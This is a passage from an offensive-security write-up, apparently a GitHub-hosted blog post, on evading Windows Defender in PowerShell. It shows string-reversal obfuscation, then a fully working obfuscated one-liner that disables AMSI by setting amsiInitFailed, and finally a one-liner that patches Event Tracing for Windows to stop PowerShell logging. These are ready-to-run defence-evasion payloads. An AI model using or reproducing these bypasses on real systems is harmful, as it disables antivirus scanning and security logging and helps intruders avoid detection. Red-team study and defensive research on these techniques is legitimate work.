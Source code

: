 ![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/e6246d82-274e-4793-bdf7-11c3a90aaa0d)


### <span style="color:pink">Reverse String</span>

The last technique is by reversing the string for obfuscating the payload.

```powershell
# Encoding Payload
PS:\> (([regex]::Matches("testing payload",'.','RightToLeft') | foreach {$_.value}) -join '')

# Decoding Payload
PS:\> (([regex]::Matches("daolyap gnitset",'.','RightToLeft') | foreach {$_.value}) -join '')
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/bd5caded-ebae-4f29-a8fa-31eb49e8bed1)

## <span style="color:lightgreen">Final Payload - 2</span>

We can also combine these techniques to create a more powerful and effective payload that can evade detection by Windows Defender. Using a combination of Base64 Encoding, Hex Encoding, Reversing The String, and Concatenation, we can create a highly obfuscated payload to bypass Windows Defender.

```powershell
PS:\> $w = 'System.Manag';$r = '65 6d 65 6e 74 2e 41 75 74 6f 6d 61 74 69 6f 6e 2e'.Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$s=$s+$_};$c = 'Amsi'+'Utils';$assembly = [Ref].Assembly.GetType(('{0}{1}{2}' -f $w,$s,$c));$n = $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAA==')));$b = 'siIn';$k = (([regex]::Matches("deliaFti",'.','RightToLeft') | foreach {$_.value}) -join '');$field = $assembly.GetField(('{0}{1}{2}' -f $n,$b,$k),'NonPublic,Static');$field.SetValue($null,$true)
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/d45a6949-de22-458f-b69e-2ced47026585)


# <span style="color:lightblue">Patching Event Tracing for Windows</span>

Event Tracing for Windows (ETW) is a powerful logging and tracing mechanism in the Windows operating system that allows developers, administrators, and analysts to monitor and diagnose system events in real time. It collects and analyses diagnostic and performance data from applications and services running on Windows. ETW records events generated by the operating system and applications, including information on processes, threads, disk I/O, network activity, and more.

By disabling or manipulating ETW, attackers can prevent security tools from logging their actions or tracking their movement within a system.

> Original Payload to patch ETW
```powershell
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```
